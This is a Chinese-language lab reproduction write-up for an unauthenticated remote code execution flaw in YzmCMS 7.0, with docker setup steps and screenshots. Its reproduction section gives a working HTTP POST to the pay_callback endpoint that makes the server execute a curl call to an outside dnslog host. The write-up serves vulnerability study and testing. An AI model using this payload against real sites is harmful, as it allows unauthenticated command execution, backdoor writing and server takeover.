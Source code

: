 # YzmCMS 7.0任意函数调用RCE 漏洞

YzmCMS是一款基于YZMPHP开发的一套轻量级开源内容管理系统,YzmCMS简洁、安全、开源、免费,可运行在Linux、Windows、MacOSX、Solaris等各种平台上,专注为公司企业、个人站长快速建站提供解决方案。

​	YzmCMS 某些接口调用了 db_pdo类的where方法，导致了远程命令执行漏洞。未经身份验证的远程攻击者可利用此漏洞执行任意系统指令，写入后门文件，最终可获取服务器权限。

源码地址https://github.com/yzmcms/yzmcms

参考链接

- https://blog.csdn.net/shelter1234567/article/details/138524342
- https://github.com/yzmcms/yzmcms/compare/v7.0...v7.1

## 漏洞环境

执行如下命令启动一个yzmcms-v7.0-web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80/index.html`即可跳转到yzmcms安装向导页面

访问http://192.168.160.128/index.html

![image-20240507134930253](./1.png)

开始安装,  创建数据

![image-20240507140714768](./2.png)

等待安装完成

![image-20240507140819578](./3.png)

## 漏洞复现

发起如下的请求，用dnslog进行验证

```
POST /pay/index/pay_callback HTTP/1.1
Host: 192.168.160.128
Content-Type: application/x-www-form-urlencoded
Content-Length: 77

out_trade_no[0]=eq&out_trade_no[1]=curl 8tff29.dnslog.cn&out_trade_no[2]=exec
```

![image-20240507142858088](./5.png)

![image-20240507144155115](./4.png)